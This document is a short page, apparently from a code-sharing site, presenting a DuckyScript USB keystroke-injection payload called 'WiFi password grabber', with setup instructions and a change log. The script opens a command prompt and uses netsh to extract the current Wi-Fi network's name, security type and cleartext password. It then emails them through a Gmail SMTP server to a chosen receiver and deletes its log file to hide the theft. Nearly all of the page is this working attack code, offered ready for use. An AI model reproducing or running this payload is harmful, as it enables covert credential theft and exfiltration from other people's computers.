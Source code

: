 ### Change the following things;
* **ACCOUNT**: Your **gmail account**
* **PASSWORD**: Your **gmail password**
* **RECEIVER**: The email you want to send the content of Log.txt to

## **Code**;
```
REM Title: WiFi password grabber
REM Author: Siem
REM Version: 3
REM Description: Saves the SSID, Network type, Authentication and the password to Log.txt and emails the contents of Log.txt from a gmail account.
DELAY 3000

REM --> Minimize all windows
WINDOWS d

REM --> Open cmd
WINDOWS r
DELAY 500
STRING cmd
ENTER
DELAY 1000

REM --> Getting SSID
STRING cd "%USERPROFILE%\Desktop" & for /f "tokens=2 delims=: " %A in ('netsh wlan show interface ^| findstr "SSID" ^| findstr /v "BSSID"') do set A=%A
ENTER

REM --> Creating A.txt
STRING netsh wlan show profiles %A% key=clear | findstr /c:"Network type" /c:"Authentication" /c:"Key Content" | findstr /v "broadcast" | findstr /v "Radio">>A.txt
ENTER

REM --> Get network type
STRING for /f "tokens=3 delims=: " %A in ('findstr "Network type" A.txt') do set B=%A
ENTER

REM --> Get authentication
STRING for /f "tokens=2 delims=: " %A in ('findstr "Authentication" A.txt') do set C=%A
ENTER

REM --> Get key
STRING for /f "tokens=3 delims=: " %A in ('findstr "Key Content" A.txt') do set D=%A
ENTER

REM --> Delete A.txt
STRING del A.txt
ENTER

REM --> Create Log.txt
STRING echo SSID: %A%>>Log.txt & echo Network type: %B%>>Log.txt & echo Authentication: %C%>>Log.txt & echo Password: %D%>>Log.txt
ENTER

REM --> Mail Log.txt
STRING powershell
ENTER
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('ACCOUNT@gmail.com', 'PASSWORD')
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'ACCOUNT@gmail.com'
ENTER
STRING $ReportEmail.To.Add('RECEIVER@gmail.com')
ENTER
STRING $ReportEmail.Subject = 'WiFi key grabber'
ENTER
STRING $ReportEmail.Body = (Get-Content Log.txt | out-string)
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
STRING exit
ENTER

REM --> Delete Log.txt and exit
STRING del Log.txt & exit
ENTER
```

### Change log;
1. Original
2. Bug fixes and narrowed commands
3. Send contents of Log.txt instead the file itself

### Suggestions;
**If you have any suggestions, write them down here.**